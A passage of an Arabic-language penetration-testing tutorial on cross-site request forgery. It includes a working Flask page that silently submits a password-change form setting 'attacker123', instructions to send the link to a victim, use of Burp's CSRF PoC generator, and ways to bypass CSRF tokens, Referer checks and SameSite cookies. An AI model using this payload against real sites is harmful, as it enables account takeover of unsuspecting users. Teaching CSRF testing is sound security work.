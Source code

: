 ```html
</html>
```
- احفظ الكود ده كملف `exploit.html`، واستضفه على سيرفر أو أرسله للضحية. لما الضحية يفتح الصفحة، الطلب هيتبعت تلقائياً.

#### **استخدام أدوات**:
- **Burp Suite**:
  - افتح Burp، وقّع طلب POST أو GET من الموقع.
  - استخدم **Engagement Tools > Generate CSRF PoC** لإنشاء كود هجوم جاهز.
- **Python Flask** (لإنشاء صفحة خبيثة):
```python
from flask import Flask, render_template_string

app = Flask(__name__)

@app.route('/')
def csrf_exploit():
    return render_template_string('''
    <form action="/change-password" method="POST" id="csrf-form">
      <input type="hidden" name="new_password" value="attacker123">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ''')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```
- ارفع الكود ده على سيرفر، وأرسل الرابط للضحية.

#### **الخلاصة بالعامية**:
زي ما تكون بتصمم فخ للضحية. بتحط كود في صفحة أو رابط، وتخليه ينفذ حاجة في الموقع من غير ما يحس. لو الموقع طلباته GET، حط رابط أو صورة. لو POST، اعمل فورم HTML تخليها تبعت الطلب لوحدها. الأدوات زي Burp بتسهل عليك تطلع الكود جاهز.

---

### **3. تحليل استجابة الموقع وتجاوز الحمايات**
كتير من المواقع بتحط حمايات ضد CSRF، وكـ Pentester لازم تعرف إزاي تتحقق منها وتتجاوزها لو فيه ثغرة.

#### **أنواع الحمايات الشائعة**:
1. **CSRF Token**:
   - رمز عشوائي بيترسل مع كل طلب POST أو GET.
   - لازم تتأكد إذا الرمز ده فعلاً عشوائي ومرتبط بالجلسة.
   - **اختبار الثغرة**: أرسل طلب من غير الرمز أو باستخدام رمز قديم، لو اتقبل، يبقى فيه ثغرة.

2. **رأس Referer/Origin**:
   - الموقع بيتحقق إن الطلب جاي من نفس النطاق (Domain).
   - **التجاوز**: بعض المواقع بتقبل رأس Referer فارغ أو من نطاق فرعي (Subdomain).

3. **SameSite Cookies**:
   - إعداد للـ Cookies بيمنع إرسالها مع طلبات من مواقع خارجية.
   - **التجاوز**: لو الإعداد `Lax` أو مش موجود، الهجوم ممكن ينجح.
